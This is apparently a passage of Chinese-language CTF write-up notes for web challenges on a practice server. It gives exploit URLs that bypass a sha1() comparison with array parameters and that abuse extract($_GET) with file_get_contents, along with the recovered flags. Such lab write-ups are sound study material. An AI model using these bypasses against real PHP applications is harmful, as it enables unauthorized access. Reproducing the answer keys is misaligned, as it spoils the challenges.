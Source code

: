 		http://120.24.86.145:8002/web7/index.php?id=margin&uname[]=a
		POST:passwd[]=b

		flag{HACK_45hhs_213sDD}

		urldecode()
		$_GET[]
		highlight_file('flag.php')

		sha1()
			sha1() 函数计算字符串的 SHA-1 散列。
			sha1() 函数使用美国 Secure Hash 算法 1。
			来自 RFC 3174 的解释 - 美国 Secure Hash 算法 1：SHA-1 产生一个名为报文摘要的 160 位的输出。报文摘要可以被输入到一个可生成或验证报文签名的签名算法。对报文摘要进行签名，而不是对报文进行签名，这样可以提高进程效率，因为报文摘要的大小通常比报文要小很多。数字签名的验证者必须像数字签名的创建者一样，使用相同的散列算法。
			
			提示：如需计算文件的 SHA-1 散列，请使用 sha1_file() 函数。

			漏洞：sha1()函数无法处理数组类型。所以只有让uname和passwdget值为数组时的哈希值恒为false，即恒等条件成立

33. web8 110
	>txt？？？？
	>http://120.24.86.145:8002/web8/

	解答：

		 <?php
			extract($_GET);
			if (!empty($ac))
			{
			$f = trim(file_get_contents($fn));
			if ($ac === $f)
			{
			echo "<p>This is flag:" ." $flag</p>";
			}
			else
			{
			echo "<p>sorry!</p>";
			}
			}
			?>
			
			
		extract($_GET)
		file_get_contents($fn)

		提示有txt,访问发现有flag.txt,内容为flags，让$ac与$f的值完全相等

		payload:
			http://120.24.86.145:8002/web8/flag.txt
			http://120.24.86.145:8002/web8/?ac=flags&fn=flag.txt
		flag：
			flag{3cfb7a90fc0de31}

34. 细心 130
	>地址：http://120.24.86.145:8002/web13/  
	>想办法变成admin
